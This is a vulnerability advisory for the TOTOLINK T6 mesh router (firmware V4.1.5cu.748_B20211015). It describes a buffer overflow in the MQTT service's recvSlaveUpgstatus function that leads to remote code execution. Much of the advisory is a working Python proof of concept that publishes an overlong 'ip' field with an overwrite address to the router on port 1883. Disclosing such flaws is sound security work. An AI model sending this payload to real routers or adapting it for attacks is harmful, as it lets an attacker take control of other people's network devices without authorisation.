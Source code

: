 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveUpgstatus`. The `s` buffer is 68 bytes, and the `sprintf` doesn't check for the length of input.

![](6/1.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](6/2.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 71 + b"\x37\x33\x33\x13"

mqtt_data = b'''
{
"status":"1",
"ip":"%s"
}
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveUpgstatus", mqtt_data)
```




